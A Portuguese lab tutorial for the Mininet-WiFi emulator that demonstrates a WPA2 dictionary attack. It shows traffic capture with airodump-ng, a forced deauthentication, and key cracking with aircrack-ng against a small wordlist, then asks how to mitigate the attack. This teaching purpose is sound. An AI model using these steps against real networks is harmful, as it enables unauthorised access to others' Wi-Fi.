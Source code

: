 ************
Dictionary attack
************


.. Note::
  
  **Ao longo deste documento você irá aprender como realizar o ataque de dicionário:** 

  **Requisitos:** 
  
  - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
  - aircrack-ng
  
  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso algum pacote estiver faltando, instale-os**
  

Primeiro, execute uma topologia simples que provê autenticação com WPA2 através do comando abaixo:

.. code:: console

    ~/mininet-wifi$ sudo python examples/authentication.py


A topologia de rede do código `authentication.py` consiste de duas estações conectadadas a um ponto de acesso. Para realizar este experimento, vamos inicialmente criar uma interface do tipo monitor chamada `mon0` a partir da estação `sta1`.

Para criar uma interface do tipo monitor execute o comando abaixo: 

.. code:: console

    mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor


Então, utilize o **airodump-ng** para capturar beacons na interface recém-criada:

.. code:: console

    mininet-wifi> sta1 ifconfig mon0 up
    mininet-wifi> sta1 airodump-ng mon0

 
Identifique o endereço MAC da estação na coluna station. 
**Dica**: Identifique o BSSID do AP ao qual a estação está conectada. O SSID pode servir de apoio.

Então, rode novamente o **airodump-ng** com os parâmetros abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    sta1-term# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w minha-captura


Em seguida, force a desconexão de **sta1**.


.. code:: console
    
    mininet-wifi> sta1 iw dev sta1-wlan0 disconnect


Agora, crie um arquivo chamado `arquivo.psk` contendo o seguinte conteúdo:

.. code:: console

    123456789a
    abcdefgh
    0011223344


Em seguida, execute o comando abaixo:

.. code:: console

    mininet-wifi> sta1 aircrack-ng -w arquivo.psk -b 02:00:00:00:02:00 minha-captura-01.cap


E voi-lá! Senha descoberta!


.. code:: console

    Aircrack-ng 1.6 

          [00:00:00] 3/3 keys tested (63.70 k/s) 

          Time left: --

                              KEY FOUND! [ 123456789a ]


          Master Key     : E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB 
                           E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21 

          Transient Key  : 55 6C 6D AA 5D B2 DC E6 C3 FB 38 59 C8 B4 5D B3 
                           1E 3B AB 48 81 8E 94 AB 50 94 9E 25 61 8D D4 F0 
                           B9 1E 4F 3C 9C 84 48 3D 8B 09 86 1D 98 31 23 57 
                           4B 03 8F B4 86 8F 8D A4 59 CD 30 2D 71 D7 AF 18 

      EAPOL HMAC     : C1 3D 58 9D 02 CB 03 4A FC 3D 44 96 FF 2D 5D 79


.. admonition:: Pergunta

   - Q1. O que poderia ser feito para tentar mitigar este tipo de ataque?
